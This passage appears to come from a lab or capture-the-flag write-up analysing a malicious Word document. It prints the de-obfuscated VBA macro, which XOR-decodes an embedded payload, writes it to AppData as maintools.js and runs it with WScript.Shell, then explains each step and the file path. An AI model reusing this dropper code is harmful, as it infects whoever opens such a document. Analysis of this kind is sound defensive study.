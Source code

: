 ```vb
    End If
    For Each regex_match In regex_match_count
        marker_index = regex_match.FirstIndex
        Exit For
    Next
    Dim payload_bytes() As Byte
    Dim payload_len As Long
    payload_len= 16827
    ReDim payload_bytes(payload_len)
    Get #file_handle_id, marker_index + 81, payload_bytes
    If Not xor_decoder(payload_bytes(), payload_len+ 1) Then
        GoTo cleanup
    End If
    payload_dir = Environ("appdata") & "\Microsoft\Windows"
    Set fso = CreateObject("Scripting.FileSystemObject")
    If Not fso.FolderExists(payload_dir) Then
        payload_dir = Environ("appdata")
    End If
    Set fso = Nothing
    Dim payload_file_handle
    payload_file_handle= FreeFile
    payload_path = payload_dir & "\" & "maintools.js"
    Open (payload_path) For Binary As #payload_file_handle
    Put #payload_file_handle, 1, payload_bytes
    Close #payload_file_handle
    Erase payload_bytes
    Set shell_obj = CreateObject("WScript.Shell")
    shell_obj.Run """" + payload_path + """" + " EzZETcSXyKAdF_e5I2i1"
    ActiveDocument.Save
    Exit Sub
    cleanup:
    Close #payload_file_handle
    ActiveDocument.Save
End Sub
```

Let's understand what the VBA macro is doing:-
1. The macro reads the entire Word document as raw bytes.
2. It converts the bytes to a Unicode string so it can search for a specific marker:
``MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh.``
3. It finds the position of this marker in the document.
4. Starting **81 bytes after the marker**, it extracts **16,827 bytes**, this is the encrypted payload.
5. It decrypts the payload using a custom **XOR** routine where the key evolves with each byte.
6. It writes the decrypted payload as **maintools.js** in the user’s AppData folder.
7. The macro runs the payload automatically with some command-line arguments.
8. Finally, it cleans up any previous payloads and temporary files, both on opening and closing the document.

<br>

### Q4) What is the name of the dropped file?
After de-obfuscating the code, it's visible that ``maintools.js`` is the dropped payload.
Environ("appdata") gets the user's appdata part 
eg. ``C:\Users\<username>\AppData\Roaming``
Also checks if ``\Microsoft\Windows`` exists which makes the full path:
``C:\Users\<username>\AppData\Roaming\Microsoft\Windows\maintools.js``
or
``C:\Users\<username>\AppData\Roaming\maintools.js`` if not.
